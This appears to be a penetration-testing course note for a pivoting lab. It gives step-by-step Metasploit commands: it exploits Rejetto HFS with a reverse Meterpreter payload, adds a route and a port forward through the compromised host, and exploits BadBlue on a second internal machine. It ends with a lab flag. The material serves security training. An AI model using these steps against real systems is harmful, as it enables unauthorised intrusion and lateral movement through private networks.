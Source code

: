 # Pivoting

+ Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host’s private internal network.

+ After gaining access to one host, we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously.

**Note**: This action of pivoting is important to get to other machines with important information and relevant privileges.

+ Meterpreter provides us with the ability to add a network route to the internal network’s subnet and consequently scan and exploit other systems on the network.

**Note**: Check page 163 of the pdf for pivoting representation.

## Laboratory

**Note**: We are going to receive two victim ip addresses. The victim 1 is accesible by us through the net, but victim 2 is not.

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results. We can name it pivoting for this example.

**Note**: We don't need to set globally the RHOSTS as we have 2 targets.

- We can start by using db_nmap to start scanning the victim 1 machine. Or you can import them from an external xlm nmap result file.

- Service: Rejetto2.3. Exploit found: `exploit/windows/http/rejetto_hfs_exec`. Get access to the target machine with a meterpreter session. Set the meterpreter, reverse_tcp payload, to the x64 version for windows.

- Let's try local enumeration: `sysinfo`, `getuid`, `getprivs`. Consider the user you are currently logged in at, it should be Administrator.

- Now we are going to establish a new route using meterpreter and the network address that can be calculated from the machine address and the subnetmask represented in the ipconfig of the target machine. From meterpreter run `run autoroute -s $TARGET_NETWORK_ADDRESS`.

**Note**: At this point we can set a name for the session of id 1 by running `sessions -n victim-1 -i 1`.

- We will use the msfconsole to scan other targets using the compromised victim 1. We can't use external tools as we established the route using meterpreter. Now we can add the address of the victim 2 as RHOSTS in the module `auxiliary/scanner/portscan/tcp` and hit run. Port 80 should be open. As we cannot access directly to the victim 2 machine, we won't be able to see the contents of the target by using the browser.

- To directly scan the second target, we will need to add a port forwarding rule on the victim 1 machine using meterpreter. This can be done as we know what ports are open on the victim 2. Go to meterpreter and run `portfwd add -l 1234 -p 80 -r $VICTIM_2_IP_ADDRESS` this will forward from 1234 in our machine to 80 on the victim 2 machine.

- Now run from the msfconsole `db_nmap -sS -sV -p 1234 $OUR_IP_ADDRESS`. Bad blue should be running on port 80 on the victim 2 machine.

- Service: BadBlue 2.7. Exploit found: `exploit/windows/http/badblue_passthru`. Get access to the target machine with a meterpreter session. Set the meterpreter bind_tcp payload instead of reverser_tcp in this case, as we want to connect to the target machine instead of forcing the target to connect to us. Remember to set the target to the appropiate target version.

- Let's try local enumeration on victim 2: `sysinfo`, `getuid`, `getprivs`.

**Note**: At this point we can set a name for the session of id 2 by running `sessions -n victim-2 -i 2`.

Flag: c46d12f28d87ae0b92b05ebd9fb8e817
